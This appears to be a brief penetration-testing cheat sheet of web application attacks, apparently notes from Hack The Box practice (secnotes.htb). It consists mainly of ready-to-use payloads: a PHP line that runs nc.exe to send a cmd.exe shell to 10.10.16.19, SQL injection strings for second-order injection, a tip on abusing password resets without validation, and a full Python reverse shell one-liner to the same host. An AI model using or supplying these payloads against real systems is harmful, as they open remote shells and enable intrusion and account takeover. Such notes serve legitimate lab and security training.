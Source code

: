 # Web Application Enumeration and Attacks

| Check | Description |
| --------- | ---------------------------- |
| Curl vs Refreshing the page | Curl the page, you may see different users invoking the service (secnotes.htb) |
| Simple PHP to run nc.exe | ```<?php system('nc.exe -e cmd.exe 10.10.16.19 12345' ?> >> nc.php``` |
| Check for XSRF in password reset functions | If the application allows a password reset without validating the user, you maybe able to trick the user into resetting their password |

## 2nd Order SQLi
```
' OR 1 OR '
' OR 1='1
```

## Python Reverse Shell
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```